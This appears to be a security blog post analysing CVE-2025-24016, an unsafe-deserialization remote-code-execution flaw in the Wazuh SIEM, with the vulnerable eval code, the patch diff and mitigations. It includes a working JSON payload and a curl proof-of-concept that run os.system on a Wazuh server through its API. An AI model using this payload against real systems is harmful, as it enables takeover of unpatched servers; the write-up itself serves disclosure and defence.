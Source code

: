 ```yaml
---
id: 2
title: "CVE-2025-24016: Unsafe Deserialization in Wazuh – RCE"
date: "March 27, 2025"
category: "vulnerability"
tags: ["CVE", "VulnerabilityResearch", "InfoSec", "Exploits","TechnicalAnalysis"]
author: "Hamza Khattak"
image: "/assets/img/blog/blog_post_2_2.png"
authorQuote: "Stay Vigilant, Stay Secure"
---
```


![CVE-2025-24016](/assets/img/blog/blog_post_2_2.png)
# CVE-2025-2401: Unsafe Deserialization in Wazuh – RCE

## Description
Open-source Security Information and Event Management (SIEM) platform Wazuh suffers from CVE-2025-24016, which enables attackers to execute arbitrary code remotely on their servers.

Attackers who have API access can execute arbitrary Python commands on vulnerable servers through this vulnerability, which exists from version 4.4.0 up to 4.9.0. The `as_wazuh_object` function processes DistributedAPI (DAPI) request or response data that makes the vulnerability active. The vulnerability enables attackers to execute arbitrary Python code, resulting in system takeover, data breaches, and complete security damage to infrastructure.

The safe `ast.literal_eval` function change in version 4.9.1 enables vulnerability protection.

## Technical Breakdown

- **Affected Software:** Wazuh  
- **Affected Versions:** 4.4.0 to 4.9.0  
- **CVSSv3.1 Score:** 9.9 (Critical)  
- **CVSSv3.1 Vector:** `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:H/A:H`  
- **Affected Component:** `framework/wazuh/core/cluster/common.py`  
- **Attack Vector:** Network  
- **Privileges Required:** Low (API Access)  
- **User Interaction:** None  
- **Scope:** Changed  

The security problem resides inside the `as_wazuh_object` function within `framework/wazuh/core/cluster/common.py`. DAPI data serialization occurs through this function to process JSON data used for communication between Wazuh API, manager, and agents.

### Vulnerable Code
```python
def as_wazuh_object(dct: Dict):
    try:
        if '__wazuh_datetime__' in dct:
            return datetime.datetime.fromisoformat(dct['__wazuh_datetime__'])
        elif '__unhandled_exc__' in dct:
            exc_data = dct['__unhandled_exc__']
            return eval(exc_data['__class__'])(*exc_data['__args__']) # 🚨 VULNERABLE 🚨
        return dct
    except (KeyError, AttributeError):
        return dct
```

The code checks if the dictionary `dct` contains the key `__unhandled_exc__`. A valid dictionary value for `__unhandled_exc__` enables the code to obtain class and args values before implementing `eval` to create an instance of `__class__` with arguments `__args__`. Evaluating untrusted data means exposing the system to severe Python code execution since attackers control it.

## Affected Component Analysis
CVE-2025-24016 occurs because `eval` operates on every data string received from the Distributed API for serialization. Python’s evaluation functions enable arbitrary program execution, creating a major security threat.

### Exploitation Example
An attacker can send the following JSON payload:
```json
{
    "__unhandled_exc__": {
        "__class__": "os.system",
        "__args__": ["touch /tmp/pwn.txt"]
    }
}
```
The execution of `eval` within `as_wazuh_object` produces a system call of `os.system("touch /tmp/pwn.txt")`, leading to the creation of a file named `/tmp/pwn.txt` on the Wazuh server.

### Proof-of-Concept (PoC) Exploit
```sh
curl -X POST -k -u "wazuh-wui:MyS3cr37P450r.*-" -H "Content-Type: application/json" \  
--data '{"__unhandled_exc__":{"__class__": "os.system", "__args__": ["touch /tmp/pwn.txt"]}}' \  
https://<worker-server>:55000/security/user/authenticate/run_as
```

### Attack Capabilities
- **Full system control** – Attackers can install malware, modify configurations, or exfiltrate sensitive data.
- **Lateral movement** – The compromised Wazuh server can be used for spreading across networks.
- **Monitoring disruption** – Security alerts can be disabled, allowing attackers to operate undetected.

## Patch Analysis
Wazuh resolved this vulnerability in version 4.9.1 by replacing `eval` with `ast.literal_eval`, which securely evaluates literals without allowing arbitrary code execution.

### Fixed Code
```python
        elif '__unhandled_exc__' in dct:
            exc_data = dct['__unhandled_exc__']
-            return eval(exc_data['__class__'])(*exc_data['__args__'])
+            exc_dict = {exc_data['__class__']: exc_data['__args__']}
+            return ast.literal_eval(json.dumps(exc_dict))
        return dct
```
The patch mitigates the vulnerability by replacing the unsafe `eval` function with `ast.literal_eval`. Unlike `eval`, `ast.literal_eval` only processes Python literals, eliminating arbitrary code execution risks.

## Mitigation Strategies
To reduce the risk associated with this vulnerability, organizations should implement the following security measures:

- **Upgrade to Wazuh 4.9.1 or later** – This version includes the necessary patch to fix the vulnerability.
- **Restrict API access** – Limit API usage to only authorized users and trusted systems.
- **Temporary workarounds** – Deploy Web Application Firewalls (WAFs) to block requests containing `__unhandled_exc__`.
- **Monitor API traffic** – Continuously track API activity for unusual behavior, such as unexpected requests or large data transfers.
- **Regularly update security configurations** – Ensure that Wazuh security settings are current and properly configured.

## References
- [NVD](https://nvd.nist.gov/vuln/detail/CVE-2025-24016)
- [GitHub Advisory](https://github.com/wazuh/wazuh/security/advisories/GHSA-hcrc-79hj-m3qh)
- [GitHub Repository (PoC)](https://github.com/0xjessie21/CVE-2025-24016)
- [SonicWall Blog](https://www.sonicwall.com/blog/critical-wazuh-rce-vulnerability-cve-2025-24016-risks-exploits-and-remediation)
- [SecurityOnline.info](https://securityonline.info/cve-2025-24016-cvss-9-9-critical-rce-vulnerability-discovered-in-wazuh-server/)
- [Recorded Future](https://www.recordedfuture.com/vulnerability-database/CVE-2025-24016)

